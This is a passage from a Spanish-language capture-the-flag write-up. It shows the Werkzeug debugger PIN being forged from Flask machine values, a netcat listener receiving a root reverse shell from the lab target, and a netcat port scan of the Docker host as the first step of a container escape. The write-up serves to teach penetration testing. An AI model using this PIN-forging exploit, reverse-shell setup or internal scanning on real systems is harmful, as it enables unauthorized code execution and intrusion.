 Quedando así:

```bash wrap=false
probably_public_bits = [
    'root',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]
private_bits = [
    '2485377892361',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'a3fce266-ca85-4988-aa7c-e2abbd0381b3467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b'  # get_machine_id(), /etc/machine-id
]
```

```bash wrap=false title="Obtenemos el PIN"
❯ python3 pin_exploit.py
138-540-334
```

![Working console](./2.png)

Ahora simplemente ejecutammos el `one-liner` de antes para obtener la **reverse shell**:

```bash wrap=false
❯ sudo nc -lvnp 4444
[sudo] contraseña para zelpro: 
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.164] 43867
/bin/sh: can't access tty; job control turned off
/app # whoami
root
```

## Escalada de privilegios

### Saliendo del contenedor

Si vemos los puertos abiertos dentro de la máquina host del contenedor, vemos el **3000**:

```bash wrap=false
/ # for port in $(seq 1 10000); do nc 172.17.0.1 $port  -zv; done
172.17.0.1 (172.17.0.1:22) open
172.17.0.1 (172.17.0.1:80) open
172.17.0.1 (172.17.0.1:3000) open
172.17.0.1 (172.17.0.1:6000) open
172.17.0.1 (172.17.0.1:6001) open
172.17.0.1 (172.17.0.1:6002) open
172.17.0.1 (172.17.0.1:6003) open
172.17.0.1 (172.17.0.1:6004) open
172.17.0.1 (172.17.0.1:6005) open
172.17.0.1 (172.17.0.1:6006) open
172.17.0.1 (172.17.0.1:6007) open
```

